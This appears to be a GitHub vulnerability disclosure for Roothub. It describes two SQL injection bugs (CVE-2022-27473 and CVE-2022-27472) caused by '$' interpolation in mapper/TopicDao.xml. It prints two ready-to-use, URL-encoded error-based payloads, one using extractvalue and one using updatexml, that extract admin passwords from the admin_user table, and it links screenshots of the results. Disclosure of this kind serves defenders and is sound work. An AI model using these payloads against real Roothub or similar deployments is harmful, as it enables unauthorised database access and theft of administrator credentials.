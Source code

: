 # Roothub_vulns

Vulnerable codes:

## Bug 1 / CVE-2022-27473:
> Erroneously usage of "$" in mapper/TopicDao.xml:130:<br>
![image](https://user-images.githubusercontent.com/9525971/159167814-90697f99-74dc-496f-be04-c641db268602.png)<br><br>
## Bug 2 / CVE-2022-27472:
> Erroneously usage of "$" in mapper/TopicDao.xml:516:<br>
![image](https://user-images.githubusercontent.com/9525971/159168468-e1956c80-26dd-4ad9-84ef-2939688cd907.png)

<br><br>
> Payload: we can use "extractvalue" or "updatexml" function in mysql to trigger the exception and finish the exploitation of this SQLi vulnerability.
1. "extractvalue":
a%25'%20union%20select%20null%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cextractvalue('1'%2Cconcat('~'%2C(select%20password%20from%20admin_user)))%20from%20admin_user--%20

2. "updatexml":
xx%25%27%20and%20updatexml(1%2Cconcat(0x7e%2C(select%20password%20from%20admin_user)%2C0x7e)%2C3)--%20<br><br>

> Result:
1. "extractvalue":<br>
![image](https://user-images.githubusercontent.com/9525971/159168040-faae0fcd-d21c-4784-ab39-3faac5d6664e.png)<br>
2. "updatexml":<br>
![image](https://user-images.githubusercontent.com/9525971/159168005-c753cbf5-9f82-463c-9bcf-5dcfe8cdc6d6.png)


